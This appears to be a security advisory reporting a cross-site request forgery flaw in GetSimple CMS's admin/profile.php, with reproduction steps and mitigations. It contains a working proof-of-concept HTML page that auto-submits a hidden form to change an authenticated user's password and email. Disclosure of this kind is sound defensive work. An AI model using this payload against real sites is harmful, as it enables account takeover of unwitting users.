 ## Critical CSRF Vulnerability in admin/profile.php Endpoint

## Vulnerability Details:
Application Name: GetSimple CMS
Software Link: [Download GetSimpleCMS v3.3.16](https://github.com/GetSimpleCMS/GetSimpleCMS/archive/refs/tags/v3.3.16.zip)
Vendor Homepage: [Vendor Homepage](https://github.com/tablatronix)
BUG: Cross-Site Request Forgery
BUG Author: Zeynalxan

### Vulnerability Overview
A Cross-Site Request Forgery (CSRF) vulnerability was identified in the `admin/profile.php` endpoint of the application. This vulnerability allows an attacker to perform unauthorized actions on behalf of an authenticated user without their consent, potentially compromising user accounts and sensitive information.

### Affected URL
- **Endpoint:** `https://localhost/admin/profile.php`

### Description
The application does not implement adequate CSRF protection mechanisms, allowing an attacker to execute arbitrary actions by crafting a malicious request. An attacker can exploit this vulnerability by tricking a victim (authenticated user) into clicking on a crafted link or visiting a malicious webpage, which would send a request to the vulnerable endpoint.

### Proof of Concept
A proof of concept (PoC) was created to demonstrate the CSRF vulnerability. The following HTML form was used to perform an unauthorized password change:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Attack POC</title>
</head>
<body>
    <h1>CSRF Attack Proof of Concept</h1>
    <form id="csrfForm" action="https://localhost/admin/profile.php" method="POST" style="display:none;">
        <input type="hidden" name="nonce" value="84315b997b0798aa316fcb424684c647402c7632">
        <input type="hidden" name="user" value="salam">
        <input type="hidden" name="email" value="salam@gmail.com">
        <input type="hidden" name="name" value="Seleme">
        <input type="hidden" name="timezone" value="Europe/Berlin">
        <input type="hidden" name="lang" value="en_US">
        <input type="hidden" name="show_htmleditor" value="1">
        <input type="hidden" name="sitepwd" value="Selme1234">
        <input type="hidden" name="sitepwd_confirm" value="Selme1234">
        <input type="hidden" name="submitted" value="Save Updates">
    </form>
    <script>
        document.getElementById('csrfForm').submit();
    </script>
</body>
</html>
```

### Steps to Reproduce
1. Ensure the target application is running on a local server.
2. Place the above HTML code in a file (e.g., `csrf_attack.html`).
3. Open the `csrf_attack.html` file in a web browser.
4. The form will automatically submit a request to `admin/profile.php`, changing the user's password without their consent.

### Impact
This vulnerability can lead to unauthorized actions being taken on behalf of users, including but not limited to:
- Unauthorized password changes.
- Modification of user profile details.
- Potential data leakage and account takeover.

### Recommendations
To mitigate this vulnerability, it is recommended to implement the following security measures:
- **CSRF Tokens**: Implement CSRF tokens for all state-changing requests. Ensure that each request includes a unique token that is validated by the server.
- **SameSite Cookie Attribute**: Use the `SameSite` attribute for cookies to restrict cross-origin requests.
- **User Confirmation**: Introduce confirmation steps for sensitive actions, such as password changes.

### Conclusion
The identified CSRF vulnerability poses a significant security risk to the application. Immediate action is required to implement proper CSRF protections to safeguard user accounts and sensitive information.
